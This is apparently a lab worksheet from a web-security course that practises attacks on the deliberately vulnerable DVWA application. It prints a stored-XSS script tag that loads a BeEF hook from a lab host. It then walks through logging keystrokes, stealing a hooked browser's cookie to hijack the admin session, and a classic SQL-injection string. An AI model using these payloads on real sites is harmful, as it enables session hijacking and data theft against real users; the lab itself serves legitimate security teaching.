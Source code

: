 ### Task 2

Navigate to XSS Stored. Figure out a way to insert a BeEF Hook. You can
paste in your web browser using **[Control+V]**:

{% capture code %}
`<script src="http://192.168.1.2:3000/hook.js" type="text/javascript"></script>`
{% endcapture %}
{% include copy-paste.html title="XSS Stored" code=code %}

> Note: Use the developer tools to modify the maxlength attribute in the
> textarea tag, or use BurpSuite to intercept and modify the POST
> message parameters.

### Task 3

Open your Windows desktop and use Firefox to go to DVWA, log in
as admin / password

-   Go to XSS Stored
-   From the BeEF UI, see if the Windows browser is hooked. If not,
    figure out why not

### Task 4

Type your name and a message from Windows in the message and store it

-   What version of Firefox is running on the hooked Windows Browser?
-   What is the size of the screen?
-   See if you can see the characters that were entered in Windows from
    the Beef UI. You may need to refresh the log[]{#line-66}
-   Create a prompt dialog with the message of your choice. (Commands →
    Browser → Hooked Domain)
-   Finally, get the hooked browser's cookie.

**Bonus**: Use the stolen cookie to access the DVWA as admin.

### Task 5

To keep BeEF from interfering with later labs, release all hooked
browsers

-   Reset the DVWA RDMS Database from Setup
-   Log back in as admin
-   Close the Remote Desktop for `windows`

## Exercise 3 : SQL Injection

### Task 1

Navigate to **SQL Injection**. Enumerate users on the system with an SQL
injection.

{% capture text %}
<pre>
    a' or 'a' = 'a
</pre>
{% endcapture %}
{% include cheat.html text=text %}
